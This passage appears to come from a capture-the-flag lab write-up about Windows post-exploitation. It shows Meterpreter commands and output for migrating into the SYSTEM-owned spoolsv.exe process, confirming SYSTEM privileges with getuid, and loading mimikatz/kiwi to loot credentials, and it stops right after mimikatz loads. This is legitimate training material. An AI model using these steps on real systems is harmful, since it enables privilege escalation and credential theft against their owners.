 ```console
                                                                         ntools\LiteAgent.exe
             ...
 1836  692   Ec2Config.exe    x64   0        NT AUTHORITY\SYSTEM         C:\Program Files\Amazon\Ec
                                                                         2ConfigService\Ec2Config.e
                                                                         xe
             ...
 2600  692   SearchIndexer.e  x64   0        NT AUTHORITY\SYSTEM         C:\Windows\System32\Search
             xe                                                          Indexer.exe
```


There's a whole bunch of processes, but we're only interested in the ones that belong to `NT AUTHORITY/SYSTEM`, so I took the liberty of removing all other entries of the output.

Out of all of these processes, the ones that the room suggests we utilize for looting is `lsass.exe` (`PID 700; PPID 592`) and the service `spoolsv.exe` (`PID 1376; PPID 692`). The latter being the answer to the first question in this section:

> What's the name of the printer service?\
> > spoolsv.exe

Now, we migrate to this process, like so:
```console
meterpreter > migrate -N spoolsv.exe                                                                 
[*] Migrating from 2224 to 1376...    
[*] Migration completed successfully.
```

Now that we've migrated, let's check our uid:
```console
meterpreter > getuid                                                                 
Server username: NT AUTHORITY\SYSTEM 
```

We thus have the answer to the second question:

> Let's check what user we are now with the command `getuid`. What user is listed?\
> > `NT AUTHORITY\SYSTEM`


Now for the actual "_looting_" part. We'll load `mimikatz` for this by executing: `load mimikatz`

```console
meterpreter > load mimikatz
[!] The "mimikatz" extension has been replaced by "kiwi". Please use this in future.                     
Loading extension kiwi...                                                                                
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)                                                    
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)                                                          
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )                             
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz                                               
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )                              '#####'        > http://pingcastle.com / http://mysmartlogon.com  ***/                          
Success. 
```
